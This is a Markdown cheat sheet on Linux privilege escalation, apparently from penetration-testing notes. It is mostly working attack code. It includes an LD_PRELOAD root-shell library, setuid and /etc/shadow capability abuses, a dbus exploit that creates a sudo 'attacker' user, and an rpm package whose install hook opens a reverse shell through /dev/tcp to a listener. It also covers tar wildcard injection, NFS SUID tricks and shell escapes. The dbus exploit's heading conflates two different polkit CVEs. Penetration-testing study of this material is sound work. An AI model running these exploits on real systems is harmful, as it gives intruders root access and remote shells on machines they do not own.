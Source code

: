 # Linux Privilege Escalation
## Misconfiguration
- Find writable directories
	`find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null`
- Find writable directories in PATH
	`IFS=':'; read -a patharr <<< "$PATH"; for dir in ${patharr[@]}; do if [ -w $dir ]; then echo -e "$dir : WRITABLE"; fi; done;`
- Find writable files
	`find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null`
- Find suid binaries
	`find / -perm /4000 2>/dev/null`
- Find guid binaries
	`find / -perm /2000 2>/dev/null`
- Find binaries with capabilities
	`getcap -r / 2>/dev/null`
- Look for cronjob
	`crontab -l`
	`cat /etc/crontab`
- Look for nfs exports
	`cat /etc/exports`
- Find unmounted drives
	`ls /dev 2>/dev/null | grep -i "sd"`
- Look for credentials in fstab
	`grep -E "(user|username|login|pass|password|pw|credentials)[=:]" /etc/fstab /etc/mtab 2>/dev/null`
- Look for mounted drives
	`cat /etc/fstab 2>/dev/null | grep -v "^#" | grep -Pv "\W*\#" 2>/dev/null`
- Find hidden files
	`find / -type f -iname ".*" -ls 2>/dev/null`
- Look for backup files
	`find /var /etc /bin /sbin /home /usr/local/bin /usr/local/sbin /usr/bin /usr/games /usr/sbin /root /tmp -type f \( -name "*backup*" -o -name "*\.bak" -o -name "*\.bck" -o -name "*\.bk" \) 2>/dev/null`
- Look for passwd and shadow files
```bash
#Passwd equivalent files
cat /etc/passwd /etc/pwd.db /etc/master.passwd /etc/group 2>/dev/null
#Shadow equivalent files
cat /etc/shadow /etc/shadow- /etc/shadow~ /etc/gshadow /etc/gshadow- /etc/master.passwd /etc/spwd.db /etc/security/opasswd 2>/dev/null
```
## LD_PRELOAD
If `env_keep += LD_PRELOAD` in sudoers:
```bash
$ cat << EOF > /tmp/shell.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
EOF
$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
$ ls -al shell.so
$ sudo LD_PRELOAD=/tmp/shell.so /usr/bin/*****
# id
uid=0(root) gid=0(root) groups=0(root)
```

## Capabilities
### cap_setuid+ep
- perl
```perl
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh";
```
- python
```python
import os  
os.setuid(0)  
os.system('/bin/bash')
```

### cap_chown
- python
```python
import os
os.chown("/etc/shadow", 1000, 1000)
```
- ruby
```ruby
require 'fileutils'
FileUtils.chown_R 'user', 'user', '/etc/shadow'
```

## Binaries
- Look inside binaries for exploit possibilities
```
strings /path/to/binary
```
> If we find calls to an executable using relative path, we can create a malicious script using the binary name and update PATH to include the folder

## Local exploits
### pwnkit (cve-2021-3560)
- Last vulnerable package (ubuntu) : 0.105-26ubuntu1
- Manual exploit (create attacker user with sudo rights)
```bash
# Create the user
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1 & sleep 0.005s; kill $!
# Create a password
openssl passwd -6 mynewpassword
# Set the password
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1000 org.freedesktop.Accounts.User.SetPassword string:'$6$TRiYeJLXw8mLuoxS$UKtnjBa837v4gk8RsQL2qrxj.0P8c9kteeTnN.B3KeeeiWVIjyH17j6sLzmcSHn5HTZLGaaUDMC4MXCjIupp8.' string:'Ask the pentester' & sleep 0.005s; kill $!
```

### Overwrite file with symlink
Scenario : if root write a file in a folder for which you have write permission, it's possible to overwrite a file only root can write by creating a symlink to the target file.
Example : https://0xdedinfosec.vercel.app/posts/hackthebox-timing-writeup
```bash
# lowpriv can download a file as root via sudo to his home directory.
# create a symlink to /root/.ssh/authorized_keys
# on attack machine, serve a public key named authorized_keys
# download the file as root which will overwrite the link target
ln -s /root/.ssh/authorized_keys ~/.ssh/authorized_keys
sudo ....... (download authorized_keys > /root/.ssh/)
```
### yum
- Get a reverse shell using crafted rpm package

If low priv user can run yum as root, we can craft a rpm package to get a reverse shell as root:
```bash
# Create a script with reverse shell commands
# root.sh:
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/0.0.0.0/4444 0>&1'

# Then use fpm docker image to build the rpm:
docker run --rm -v $(pwd):/data skandyla/fpm -n packagename -s dir -t rpm -a all --before-install /data/root.sh  -p /data /data
# Start an HTTP server and tcp listener
python -m SimpleHTTPServer 8000
nc -lnvp 4444
# On the target machine, install the rpm package:
sudo yum install http://0.0.0.0:8000/root-1.0-1.noarch.rpm
```

### nfs
- Exploit rootsquash
```sh
# Copy a bash binary to mounted NFS
cp bash /mount/point/to/nfs
# Set owner to root
sudo chown root /mount/point/to/nfs/bash
# Set uid on binary
chmod a+sx /mount/point/to/nfs/bash
# Run the binary in low privilege shell
./bash -p (in low privilege shell)
```

### tar
- Exploit tar with wildcard injection
```sh
# Example tar command: cd /folder; tar cf /backup.tgz *
# Exploit this with checkpoint injection:
cd /folder
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
# Wait for tar to run as root
```

### pkexec
See this writeup for THM's road
https://wiki.thehacker.nz/docs/thm-writeups/road-medium/

## Shell escape sequence
| Tool   | Escape Sequence                                                 |
| ------ | --------------------------------------------------------------- |
| vi/vim | `:!/bin/bash`, `:set shell=/bin/bash:shell`                     |
| awk    | `awk 'BEGIN {system(\"/bin/bash\")}'`                           |
| perl   | `perl -e 'exec \"/bin/bash\";'`                                 |
| find   | `find / -exec /usr/bin/awk 'BEGIN {system(\"/bin/bash\")}' \\;` |
| nmap   | --interactive                                                   |                           


## Tools
- https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
- https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh
- https://github.com/sleventyeleven/linuxprivchecker
- https://github.com/rebootuser/LinEnum

## Guides
- https://book.hacktricks.xyz/linux-unix/privilege-escalation
- https://book.hacktricks.xyz/linux-unix/privilege-escalation/wildcards-spare-tricks
- https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md
- https://gtfobins.github.io/
- https://tbhaxor.com/exploiting-linux-capabilities-part-3/

## Writeups
- https://blog.tryhackme.com/skynet-writeup/
- https://s1gh.sh/tryhackme-wonderland/